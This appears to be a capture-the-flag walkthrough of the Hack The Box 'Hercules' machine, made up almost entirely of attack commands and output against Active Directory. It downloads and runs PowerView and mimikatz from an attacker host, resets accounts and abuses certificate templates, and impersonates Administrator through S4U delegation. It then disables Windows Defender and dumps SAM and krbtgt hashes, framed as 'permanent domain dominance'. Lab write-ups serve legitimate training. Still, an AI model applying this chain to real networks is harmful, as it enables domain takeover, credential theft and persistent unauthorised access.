PS C:\Users\auditor\Documents> Get-DomainGroupMember -Identity 'Helpdesk Administrators' -Recurse | select MemberName,MemberSid
The term 'Get-DomainGroupMember' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
Let try to bypass AMSI
PS C:\Users\auditor\Documents> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
At line:1 char:1
+ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubuser ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
⚠️ AMSI Bypassing
In attacker we edit a file name
PowerView.ps1Copy all contents at <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1>After that, upload into winrm session
$ python3 -m http.server 80 Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ... 10.10.11.91 - - [20/Oct/2025 09:59:21] "GET /PowerView.ps1 HTTP/1.1" 200Also in winrm session, you'll get AMSI bypassed via this cmd
PS C:\\Users\\auditor\\Documents> IEX (New-Object Net.WebClient).DownloadString('<http://10.10.16.xx/PowerView.ps1>')

PS C:\Users\auditor\Documents> dsacls "OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb" /G "HERCULES\AUDITOR:GA" /I:T

PS C:\Users\auditor\Documents> Enable-ADAccount -Identity "CN=Fernando Rodriguez,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb" -ErrorAction SilentlyContinue
PS C:\Users\auditor\Documents> Set-ADAccountPassword -Identity "fernando.r" -NewPassword (ConvertTo-SecureString "Password678!" -AsPlainText -Force) -Reset
Enable fernando.r & Request EnrollmentAgentOffline Certificate
$ impacket-getTGT -dc-ip 10.10.11.91 hercules.htb/fernando.r:Password678!
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in fernando.r.ccache
$ export KRB5CCNAME=fernando.r.ccache
Request Certificate On-Behalf-Of ashley.b (ESC8)
$ certipy-ad req -k -upn fernando.r@hercules.htb -dc-ip 10.10.11.91 -dc-host dc.hercules.htb -target DC.hercules.htb -ca CA-HERCULES -template EnrollmentAgentOffline -application-policies 'Client Authentication' -dcom
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[*] Requesting certificate via DCOM
[*] Request ID is 13
[*] Successfully requested certificate
[*] Got certificate with UPN 'fernando.r@hercules.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'fernando.r.pfx'
[*] Wrote certificate and private key to 'fernando.r.pfx'
$ impacket-getTGT -dc-ip 10.10.11.91 hercules.htb/fernando.r:Password678!
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in fernando.r.ccache
$ export KRB5CCNAME=fernando.r.ccache
$ certipy-ad req -u "fernando.r@hercules.htb" -k -no-pass -dc-ip "10.10.11.91" -dc-host dc.hercules.htb -target "dc.hercules.htb" -ca 'CA-HERCULES' -template "User" -pfx fernando.r.pfx -on-behalf-of "hercules\ashley.b" -dcom
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[*] Requesting certificate via DCOM
[*] Request ID is 15
[*] Successfully requested certificate
[*] Got certificate with UPN 'ashley.b@hercules.htb'
[*] Certificate object SID is 'S-1-5-21-1889966460-2597381952-958560702-1135'
[*] Saving certificate and private key to 'ashley.b.pfx'
[*] Wrote certificate and private key to 'ashley.b.pfx'
$ certipy-ad auth -pfx ashley.b.pfx -username ashley.b -domain hercules.htb -dc-ip 10.10.11.91
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*] SAN UPN: 'ashley.b@hercules.htb'
[*] Security Extension SID: 'S-1-5-21-1889966460-2597381952-958560702-1135'
[*] Using principal: 'ashley.b@hercules.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ashley.b.ccache'
[*] Wrote credential cache to 'ashley.b.ccache'
[*] Trying to retrieve NT hash for 'ashley.b'
[*] Got hash for 'ashley.b@hercules.htb': aad3b435b51404eeaad3b435b51404ee:1e719fbfddd226da74f644eac9df7fd2
$ export KRB5CCNAME=ashley.b.ccache
$ pwnrm -ssl -port 5986 -k -no-pass hercules.htb/ashley.b@dc.hercules.htb

From Auditor Shell: Grant Full Control Over Forest Migration OU
PS C:\Users\auditor\Documents> dsacls "OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb" /G "HERCULES\IT Support:GA" /I:T

Authenticate as ashley.b (Ashley.B Shell)
PS C:\Users\ashley.b\Desktop> ./aCleanup.ps1
PS C:\Users\ashley.b\Desktop> dsacls "OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb" /G "HERCULES\IT Support:GA" /I:T

Road to Administrator
From ashley.b Shell: Enable iis_administrator & Reset iis_webserver$ Password
PS C:\Users\ashley.b\Desktop> Enable-ADAccount -Identity "CN=iis_administrator,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb" -ErrorAction SilentlyContinue
PS C:\Users\ashley.b\Desktop> Set-ADAccountPassword -Identity "iis_administrator" -NewPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) -Reset
Extract iis_webserver$ Session Key
$ impacket-getTGT hercules.htb/'iis_administrator':'Password123!' -dc-ip 10.10.11.91
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in iis_administrator.ccache
$ export KRB5CCNAME=iis_administrator.ccache
$ bloodyAD --host DC.hercules.htb -d hercules.htb -u 'iis_administrator' -k set password iis_webserver$ 'Password123!'
[+] Password changed successfully!
$ impacket-getTGT -hashes :2B576ACBE6BCFDA7294D6BD18041B8FE 'hercules.htb'/'iis_webserver$'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in iis_webserver$.ccache
$ impacket-describeTicket 'iis_webserver$.ccache'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key : fc7f79c8a632cba3b2246ee8a7ad28a2
[*] User Name : iis_webserver$
[*] User Realm : HERCULES.HTB
[*] Service Name : krbtgt/HERCULES.HTB
[*] Service Realm : HERCULES.HTB
[*] Start Time : 20/10/2025 15:26:48 PM
[*] End Time : 21/10/2025 01:26:48 AM
[*] RenewTill : 21/10/2025 15:25:57 PM
[*] Flags : (0x50e10000) forwardable, proxiable, renewable, initial, pre_authent, enc_pa_rep
[*] KeyType : rc4_hmac
[*] Base64(key) : /H95yKYyy6OyJG7op60oog==
[*] Decoding unencrypted data in credential[0]['ticket']:
[*] Service Name : krbtgt/HERCULES.HTB
[*] Service Realm : HERCULES.HTB
[*] Encryption type : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
$ impacket-describeTicket 'iis_webserver$.ccache' | grep 'Ticket Session Key'
[*] Ticket Session Key : <webserver_hash_key>
Change iis_webserver$ Password Using Session Key (Bypass Cleanup)
$ unset KRB5CCNAME
$ impacket-changepasswd -newhashes :<webserver_hash_key> 'hercules.htb'/'iis_webserver$':'Password123!'@'dc.hercules.htb' -k
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Changing the password of hercules.htb\iis_webserver$
[*] Connecting to DCE/RPC as hercules.htb\iis_webserver$
[-] CCache file is not found. Skipping...
[*] Password was changed successfully.
[!] User might need to change their password at next logon because we set hashes (unless password never expires is set).
$ export KRB5CCNAME=iis_webserver\$.ccache
Final Abuse: Unconstrained Delegation → S4U2Self + S4U2Proxy
$ impacket-getST -u2u -impersonate "Administrator" -spn "cifs/dc.hercules.htb" -k -no-pass 'hercules.htb'/'iis_webserver$'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.hercules.htb@HERCULES.HTB.ccache
Created
Administrator@cifs_dc.hercules.htb@HERCULES.HTB.ccacheto roottt
$ export KRB5CCNAME=Administrator@cifs_dc.hercules.htb@HERCULES.HTB.ccache
$ pwnrm -ssl -port 5986 -k -no-pass dc.hercules.htb
[*] '-target_ip' not specified, using dc.hercules.htb
[*] '-url' not specified, using https://dc.hercules.htb:5986/wsman
[*] using domain and username from ccache: hercules.htb\Administrator
[*] '-spn' not specified, using HTTP/dc.hercules.htb@hercules.htb
[*] '-dc-ip' not specified, using hercules.htb
...[snip]...
PS C:\Users\Administrator\Documents>

More Exploitation From Administrator Session
Another step to exploit information from root
💡 Disable Windows Defender completely (real-time, behavior, and exclude our working directory)
PS C:\Tools> Set-MpPreference -DisableRealtimeMonitoring $true PS C:\Tools> Set-MpPreference -DisableBehaviorMonitoring $true PS C:\Tools> Add-MpPreference -ExclusionPath "C:\Tools"Pull latest mimikatz (x64) from our web server
PS C:\Tools> certutil -urlcache -split -f http://10.10.16.xx/mimikatz.exe mimikatz.exe

### Dump Local SAM Hashes (Administrator account)
PS C:\Tools> .\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
[+] Administrator NTLMv1 hash: 56855ee6b7570edefde6ac262200756e

DCSync – Extract krbtgt Hash (Golden Ticket Ready)
PS C:\Users\Administrator\Documents> .\mimikatz.exe "lsadump::dcsync /domain:hercules.htb /user:krbtgt" "exit"
[+] Krbtgt NTLMv1 hash: aa9d05e554420b27186ffe97882303c2

With these two hashes you now have permanent domain dominance – even if the machine is wiped, you can always come back anytime with a fresh Golden or Silver ticket.
Hercules fully pwned – from initial LDAP injection all the way to krbtgt.